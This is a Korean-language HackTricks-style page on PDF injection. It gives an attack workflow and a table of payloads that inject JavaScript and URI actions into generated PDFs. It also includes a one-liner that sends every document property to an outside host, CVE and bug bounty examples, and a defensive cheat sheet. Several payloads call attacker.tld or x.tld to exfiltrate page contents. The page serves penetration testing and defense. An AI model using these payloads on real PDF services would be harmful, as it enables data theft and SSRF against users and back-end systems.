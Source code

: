 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**PDF 파일 내에서 입력이 반영되는 경우, JavaScript를 실행하거나 SSRF를 수행하거나 PDF 콘텐츠를 훔치기 위해 PDF 데이터를 주입할 수 있습니다.**
PDF 구문은 매우 관대합니다 – 입력을 포함하는 문자열이나 사전에서 벗어날 수 있다면, Acrobat/Chrome이 기꺼이 구문 분석할 새로운 객체(또는 동일한 객체의 새로운 키)를 추가할 수 있습니다.
2024년부터 버그 바운티 보고서의 물결이 *하나의 이스케이프되지 않은 괄호나 백슬래시로도* 전체 스크립트 실행이 가능하다는 것을 보여주었습니다.

## TL;DR – 현대 공격 워크플로우 (2024)
1. 생성된 PDF의 **(괄호 문자열)**, `/URI ( … )` 또는 `/JS ( … )` 필드 내에 위치하는 사용자 제어 값 찾기.
2. `) ` (문자열 닫기) 다음에 아래의 원시 중 하나를 주입하고 구문을 유효하게 유지하기 위해 또 다른 여는 괄호로 마무리합니다.
3. 악성 PDF를 피해자에게 전달하거나(또는 파일을 자동으로 렌더링하는 백엔드 서비스에 전달 – 블라인드 버그에 유용).
4. PDF 뷰어에서 페이로드가 실행됩니다:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (CVE-2024-4367 참조)
* Acrobat → 전체 JavaScript API (임의 파일 내용을 `this.getPageNthWord`로 유출할 수 있음)

예시 (주석 링크 하이재킹):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*첫 번째 `)`는 원래 URI 문자열을 닫고, 사용자가 링크를 클릭할 때 Acrobat이 실행할 새로운 **Action** 사전을 추가합니다.*

## 유용한 주입 원시
| 목표 | 페이로드 스니펫 | 비고 |
|------|-----------------|-------|
| **열 때 JavaScript** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | 문서가 열릴 때 즉시 실행됩니다 (Acrobat에서 작동, Chrome에서는 작동하지 않음). |
| **링크에서 JavaScript** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | `/Link` 주석을 제어할 경우 PDFium 및 Acrobat에서 작동합니다. |
| **블라인드 데이터 유출** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | JS 내에서 `this.getPageNthWord`와 결합하여 콘텐츠를 훔칩니다. |
| **서버 측 SSRF** | 위와 동일하지만 내부 URL을 타겟으로 설정 – PDF가 `/URI`를 존중하는 백오피스 서비스에 의해 렌더링될 때 유용합니다. |
| **새 객체를 위한 줄 바꿈** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | 라이브러리가 새 줄 문자를 주입할 수 있게 허용하면 완전히 새로운 객체를 생성할 수 있습니다. |

## 블라인드 열거 트릭
Gareth Heyes (PortSwigger)는 알 수 없는 문서 내의 모든 객체를 열거하는 원라이너를 발표했습니다 – 생성된 PDF를 볼 수 없을 때 유용합니다:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
코드는 Acrobat DOM을 반복하며 모든 속성/값 쌍에 대해 외부 요청을 수행하여 파일의 *JSON-ish* 덤프를 제공합니다. 전체 기술에 대한 내용은 백서 “Portable Data **ex**Filtration”을 참조하십시오.

## 실제 버그 (2023-2025)
* **CVE-2024-4367** – Firefox의 PDF.js 4.2.67 이전에서 임의의 JavaScript 실행이 조작된 `/JavaScript` 작업으로 샌드박스를 우회했습니다.
* **버그 바운티 2024-05** – 주요 핀테크가 고객 제공 송장 노트를 `/URI`에 허용했으며, `file:///` URI를 사용하여 내부 메타데이터 호스트에 대한 SSRF를 시연한 후 보고서에 $10k가 지급되었습니다.
* **CVE-2023-26155** – 비정상적인 PDF 경로를 통한 `node-qpdf` 명령 주입은 PDF 레이어 이전에 백슬래시와 괄호를 이스케이프하는 것의 중요성을 보여줍니다.

## 방어용 치트시트
1. **절대 사용자 입력을 `(`…`)` 문자열이나 이름에 연결하지 마십시오.** PDF 사양 §7.3에 따라 필요한 경우 `\`, `(`, `)`를 이스케이프하거나 16진수 문자열 `<...>`을 사용하십시오.
2. 링크를 생성할 경우, `/URI (https://…)`를 선호하며 *완전히* URL 인코딩하십시오; 클라이언트 뷰어에서 `javascript:` 스킴을 차단하십시오.
3. PDF 후처리 시 `/OpenAction`, `/AA` (추가 작업), `/Launch`, `/SubmitForm` 및 `/ImportData` 사전을 제거하거나 검증하십시오.
4. 서버 측에서는 신뢰할 수 없는 PDF를 JavaScript 및 외부 작업을 제거하는 *헤드리스 변환기* (예: qpdf –decrypt –linearize)로 렌더링하십시오.
5. PDF 뷰어를 최신 상태로 유지하십시오; PDF.js < 4.2.67 및 2024년 7월 이전의 Acrobat Reader는 사소한 코드 실행을 허용합니다.

## 참고문헌
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (2024년 5월 업데이트). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (2024년 4월). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
